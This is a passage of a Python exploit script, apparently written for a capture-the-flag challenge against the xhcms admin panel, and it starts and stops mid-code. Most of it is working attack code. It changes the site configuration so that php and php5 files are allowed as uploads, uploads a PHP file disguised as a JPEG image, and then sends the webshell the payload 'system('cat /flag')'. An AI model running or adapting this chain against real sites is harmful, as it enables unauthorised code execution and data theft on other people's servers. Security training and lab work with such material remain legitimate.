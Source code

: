 ```python
        'Content-Length': '677'
    }

    data = {
        'site_status': '1',
        'mobil_status': '2',
        'site_title': 'xhcms后台系统',
        'site_logo': '/uploads/admin/201910/5db6890644255.jpg',
        'keyword': '停车场,高铁,飞机场,测试',
        'description': '停车管理系统',
        'file_size': '5000',
        'cnzz': '',
        'sub_title': '武汉网站建设',
        'file_type': 'gif,png,jpg,jpeg,doc,docx,xls,xlsx,csv,pdf,rar,zip,txt,mp4,flv,php,php5',
        'default_themes': 'index',
        'off_msg': '站点维护中',
        'mobil_domain': '',
        'mobil_themes': ''
    }

    response = requests.post(url, headers=headers, cookies=cookies, data=data)

def upload(cookies):
    url = uri+'/admin/Upload/uploadImages.html'
    headers = {
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/112.0',
        'Accept': '*/*',
        'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
        'Accept-Encoding': 'gzip, deflate',
        'Origin': 'http://127.0.0.1:34001',
        'Connection': 'close',
        'Referer': 'http://127.0.0.1:34001/admin/Config',
        'Sec-Fetch-Dest': 'empty',
        'Sec-Fetch-Mode': 'cors',
        'Sec-Fetch-Site': 'same-origin'
    }
    data={
        "id":"WU_FILE_0",
        "name":"1.jpg",
        "type":"image/jpeg",
        "lastModifiedDate":"2023/4/15 09:33:23",
        "size":"849"
    }
    files={'file': ("1.php",open('q.php', 'rb'),"image/jpeg")}

    response = requests.post(url, headers=headers, cookies=cookies, data=data, files=files)
    j_data = response.json()
    return j_data["data"]

def gogo(path):
    url = uri+path

    payload = "cmd=system('cat /flag');"
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/112.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "application/x-www-form-urlencoded",
        "Origin": "http://127.0.0.1:34001",
```